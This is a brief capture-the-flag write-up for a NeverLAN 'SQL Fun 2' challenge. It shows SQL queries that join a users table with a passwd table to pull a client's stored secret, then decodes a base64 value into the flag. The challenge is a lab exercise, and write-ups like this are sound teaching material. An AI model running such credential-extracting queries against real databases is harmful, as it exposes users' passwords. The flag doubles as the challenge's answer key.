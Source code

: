 [SQL Fun 2]
---
Question:
---
	REPORT: A Client forgot his Password... again. Could you get it for me? He has a users account and his Lname is Miller if that helps at all. Oh! and Ken was saying something about a new table called passwd; said it was better to separate things
	
	https://challenges.neverlanctf.com:1155

Answer
---
	1. Construct SQLi string to get username and table: SELECT * FROM users WHERE Lname="Miller"

![alt text](https://i.imgur.com/hHdkfAt.png)

	2. Join this table with the passwd table: SELECT * FROM users JOIN passwd WHERE Lname="Miller"

![alt text](https://i.imgur.com/I9G9O1w.png)
	
	3. One of the tables gives us: ZmxhZ3tXMWxsX1kwdV9KMDFOX00zP30=
	4. Decode base64 value
	5. Flag: flag{W1ll_Y0u_J01N_M3?}

Flag:
---
	flag{W1ll_Y0u_J01N_M3?}